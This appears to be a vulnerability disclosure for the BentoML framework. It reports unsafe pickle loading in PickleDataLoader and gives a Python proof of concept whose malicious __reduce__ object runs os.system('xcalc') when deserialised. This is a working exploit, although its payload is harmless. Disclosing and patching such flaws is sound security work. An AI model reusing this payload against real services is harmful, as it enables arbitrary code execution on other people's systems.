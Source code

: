 # Description
BentoML is a framework for serving, managing, and deploying machine learning models. It is aiming to bridge the gap between Data Science and DevOps, and enable teams to deliver prediction services in a fast, repeatable, and scalable way.
* **Vulnerability discription**
    untrusded loading of data by the picle.load function leading to Arbitrary code execution.
# Proof of Concept

1. run exploit.py
```python
// exploit.py
import os
import pickle
#setup
os.system('pip install bentoml')
from bentoml.marshal.utils import PickleDataLoader
#payload formation
class ArbitrarcyCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#serilizing payload
dumps = pickle.dumps(ArbitrarcyCode())
#exploiting bentoml
PickleDataLoader.split_requests(dumps)
```
![](https://media.discordapp.net/attachments/789769803770494996/789769887107121192/Screenshot_from_2020-12-19_07-40-24.png)
